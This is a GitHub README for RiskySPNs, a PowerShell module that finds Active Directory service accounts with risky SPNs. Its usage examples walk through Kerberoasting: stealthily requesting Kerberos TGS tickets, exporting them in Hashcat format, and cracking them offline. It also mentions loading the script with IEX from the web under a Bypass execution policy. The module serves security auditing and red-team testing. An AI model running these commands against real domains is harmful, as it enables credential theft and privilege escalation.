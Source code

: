 # RiskySPNs
RiskySPNs is a collection of PowerShell scripts focused on detecting and abusing accounts associated with SPNs (Service Principal Name). This module can assist blue teams to identify potentially risky SPNs as well as red teams to escalate privileges by leveraging Kerberos and Active Directory.

For detailed information: http://www.cyberark.com/blog/service-accounts-weakest-link-chain/ 

## Usage
### Install the module
```powershell
Import-Module .\RiskySPNs.psm1
```
**Or just load the script (you can also `IEX` from web)**
```powershell
. .\Find-PotentiallyCrackableAccounts.ps1
```
Make sure `Set-ExecutionPolicy` is `Unrestricted` or `Bypass`
### Get information about a function (very detailed :))
```powershell
Get-Help Get-TGSCipher -Full
```
All fucntions also have `-Verbose` mode

### Search vulnerable SPNs
**Find vulnerable accounts**
```powershell
Find-PotentiallyCrackableAccounts
```
Sensitive + RC4 = $$$

**Generate full deatiled report about vulnerable accounts (CISO <3)**
```powershell
Export-PotentiallyCrackableAccounts
```
### Get tickets
**Request Kerberos TGS for SPN**
```powershell
Get-TGSCipher -SPN "MSSQLSvc/prodDB.company.com:1433"
```

**Or**
```powershell
Find-PotentiallyCrackableAccounts -Stealth -GetSPNs | Get-TGSCipher
```
### The fun stuff :)

```powershell
Find-PotentiallyCrackableAccounts -Sensitive -Stealth -GetSPNs | Get-TGSCipher -Format "Hashcat" | Out-File crack.txt
oclHashcat64.exe -m 13100 crack.txt -a 3
```



